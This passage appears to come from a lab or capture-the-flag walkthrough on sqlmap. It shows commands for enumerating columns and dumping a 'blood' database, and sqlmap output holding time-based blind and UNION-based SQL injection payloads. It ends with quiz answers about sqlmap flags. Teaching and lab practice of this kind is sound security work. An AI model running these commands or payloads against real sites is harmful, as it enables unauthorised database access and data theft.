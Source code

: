 Once we have available tables, now let’s gather the columns from the table blood_db.

Using GET based Method:
----------------------
- sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
- sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns

     abdul@rahman$ sqlmap -r req.txt -D blood -T blood_db --columns
     [19:35:57] [INFO] parsing HTTP request from 'req.txt'
     [19:35:57] [INFO] resuming back-end DBMS 'mysql'
     [19:35:57] [INFO] testing connection to the target URL
     sqlmap resumed the following injection point(s) from stored session:
     ---
     Parameter: blood_group (POST)
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

          Type: UNION query
          Title: Generic UNION query (NULL) - 8 columns
          Payload: blood_group=B+' UNION ALL SELECT    NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
            ---
      [19:35:58] [INFO] the back-end DBMS is MySQL
      web server operating system: Linux Ubuntu
      web application technology: Nginx 1.10.3
      back-end DBMS: MySQL >= 5.0.12
      [19:35:58] [INFO] fetching tables for database: 'blood'
      [19:35:58] [WARNING] reflective value(s) found and filtering out
      Database: blood
      [3 tables]
      +----------+
      | blood_db |
      | flag     |
      | users    |
      +----------+


Or we can simply dump all the available database and tables using the follwing commands.

Using GET based Method:
----------------------
- sqlmap -r req.txt -D <database_name> --dump-all
- sqlmap -r req.txt-p  -D <database_name> --dump-all



```
Answer the question:-

1- Which flag or option will allow you to add a URL to the command?
   Ans:  -u 

2- Which flag would you use to add data to a POST request?
   Ans:  --data

3- There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?
   Ans:  -p username

4- Which flag would you use to show the advanced help menu?
   Ans:  -hh

5- Which flag allows you to retrieve everything?
```